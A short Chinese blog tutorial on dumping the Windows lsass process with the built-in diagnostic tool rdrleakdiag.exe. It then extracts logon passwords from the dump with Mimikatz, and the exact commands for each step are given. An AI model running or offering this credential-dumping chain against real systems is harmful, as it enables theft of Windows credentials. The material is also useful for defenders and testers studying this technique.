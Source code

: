 ```yaml
---
layout: post
title: "使用 rdrleakdiag.exe 转储进程"
tags: [Process_Dump, Tricks]
comments: true
---
```


# rdrleakdiag.exe

---

最近在 Twitter 看到有安全研究员公示了一个用于进程转储的工具，且在 Windows 的多版本中属于系统自带的程序，如果目标不存在此程序，也可以上传执行，程序本身的目的是用于资源泄露诊断，但是现在可以利用它转储指定的进程，推主贴出了用于进程转储的参数；

![](https://xxxeyj.github.io/images/20-09-15_ONE.PNG)

在 Windows 10 操作系统共发现了四个  "rdrleakdiag.exe" 程序；

在这里我们以 " C:\\Windows\System32" 目录下的 "rdrleakdiag.exe" 用作测试，首先使用 cmd 命令查找 lsass 进程的 pid；

```cmd
tasklist /svc | findstr lsass
```

![](https://xxxeyj.github.io/images/20-09-15_TWO.PNG)

可以看到 lsass 的进程 pid 为 548；

使用如下命令转储进程；
```cmd
rdrleakdiag.exe /p 548 /o C:\Users\Administrator\Desktop\ /fullmemdmp /wait 1
```
![](https://xxxeyj.github.io/images/20-09-15_THREE.PNG)

可以看到桌面上已经生成了两个文件，将其 dmp 文件拷贝至 Mimikatz 目录下，而后使用 Mimikatz 载入 dmp 文件，使用如下两条命令即可；
```mimikatz
sekurlsa::minidump minidump_548.dmp
sekurlsa::logonpasswords
```
![](https://xxxeyj.github.io/images/20-09-15_FOUR.PNG)

## Reference

---

https://twitter.com/0gtweet/status/1299071304805560321
